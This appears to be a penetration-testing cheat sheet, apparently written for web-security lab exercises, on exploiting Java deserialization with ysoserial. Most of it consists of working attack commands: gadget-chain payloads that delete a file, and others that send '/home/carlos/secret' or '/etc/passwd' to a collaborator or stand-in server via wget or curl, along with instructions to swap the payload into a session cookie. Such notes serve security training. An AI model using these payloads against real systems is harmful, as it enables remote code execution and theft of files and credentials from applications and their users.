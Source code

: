The tool [ysoserial](https://github.com/frohoff/ysoserial) lets you choose a provided gadget chain for a library and pass it a command to execute and then creates an appropriate serialized object based on the selected chain.

>[!info]
>In Java versions >16, you must specify a series of command-line arguments for Java to run ysoserial such as the below.

```java
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   [payload] '[command]'
```

For easier execution of ysoserial, install Java JDK 11 on a Linux virtual machine:

```bash
sudo apt install openjdk-11-jdk
```

It will install a version of Java that works well with ysoserial under the following path:

```bash
/usr/lib/jvm/java-11-openjdk-amd64/bin/java
```

To run ysoserial, simply run:

```bash
sudo ./java -jar ~/Tools/ysoserial/ysoserial-all.jar [PAYLOAD] [COMMAND] | base64 -w 0
```

For example, try authenticating and analysing anything that appears to be a serialized object. If suspected, try base64 decoding it and observe the decoded contents - if it contains `ac ed` at the start, it is likely Java. 

Java Deserialization Scanner can be used to detect vulnerable libraries if it works. If vulnerable, run ysoserial to generate a base64-encoded serialized object:

```bash
sudo ./java -jar ~/Tools/ysoserial/ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w 0
```

Attempt to replace the session cookie with the resulting payload. If extracting data is preferred, modify the payload as follows, with testing external DNS communication first:

```bash
sudo ./java -jar ~/Tools/ysoserial/ysoserial-all.jar CommonsCollections4 "host [COLLABORATOR-DOMAIN]" | base64 -w 0
```

```bash
sudo ./java -jar ~/Tools/ysoserial/ysoserial-all.jar CommonsCollections4 "wget --post-file /home/carlos/secret [COLLABORATOR-DOMAIN]" | base64 -w 0
```

```bash
sudo ./java -jar ~/Tools/ysoserial/ysoserial-all.jar CommonsCollections4 "curl -X POST -d \$(cat /etc/passwd) http://your-server.com/receive" | base64 -w 0
```

